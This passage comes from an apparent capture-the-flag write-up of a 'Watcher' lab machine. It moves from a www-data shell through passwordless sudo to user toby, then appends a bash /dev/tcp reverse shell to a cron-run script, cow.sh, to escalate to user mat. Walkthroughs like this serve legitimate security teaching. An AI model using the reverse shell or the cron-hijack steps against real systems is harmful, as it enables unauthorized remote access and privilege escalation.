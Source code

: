 ```
www-data@watcher:$ cd /var/www/html/more_secrets_a9f10a
www-data@watcher:/var/www/html/more_secrets_a9f10a$ ls
flag_3.txt
www-data@watcher:/var/www/html/more_secrets_a9f10a$ cat flag_3.txt
cat flag_3.txt
FLAG{l------------y}
```
Then i'm check the privilage with sudo -l and here is the output:

```bash 
sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```
That you can see, the user www can access user toby and we can change user without using password with this command `sudo -u toby bash`.

![img](/assets/thm_watcher/bg_10.png)

### Flag 4

And there is also have flag_4.txt

```
toby@watcher:~$ cat flag_4.txt                                                         
cat flag_4.txt                                                                   
FLAG{c------------e}
```
After that we can echo shell to cow.sh, i know it because there is have note.txt and explain the user of mat create cronjob with permision of mat. Now we can put revershell to cow.sh `echo "bash -i >& /dev/tcp/10.2.47.251/1234 0>&1" >> cow.sh`

Note.txt : 
```
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```